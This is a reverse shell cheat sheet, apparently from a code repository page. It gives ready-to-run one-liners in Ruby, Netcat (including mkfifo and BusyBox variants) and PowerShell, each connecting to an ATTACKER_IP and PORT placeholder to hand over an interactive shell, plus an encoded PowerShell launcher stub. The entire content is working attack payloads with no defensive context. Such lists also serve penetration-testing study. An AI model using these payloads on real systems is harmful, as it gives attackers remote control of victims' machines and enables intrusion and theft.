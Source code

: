 
## Ruby

### Basic
```ruby
ruby -rsocket -e 'exit if fork;c=TCPSocket.new("ATTACKER_IP","PORT");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```

### Alternative
```ruby
ruby -rsocket -e 'c=TCPSocket.new("ATTACKER_IP","PORT");$stdin.reopen(c);$stdout.reopen(c);$stderr.reopen(c);exec("/bin/sh -i")'
```

---

## Netcat

### Basic
```bash
nc -e /bin/sh ATTACKER_IP PORT
```

### Without -e
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc ATTACKER_IP PORT >/tmp/f
```

### BusyBox
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|busybox nc ATTACKER_IP PORT >/tmp/f
```

---

## PowerShell

### Basic
```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('ATTACKER_IP',PORT);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

### Encoded
```powershell
powershell -nop -enc "BASE64_ENCODED_SCRIPT"
```

---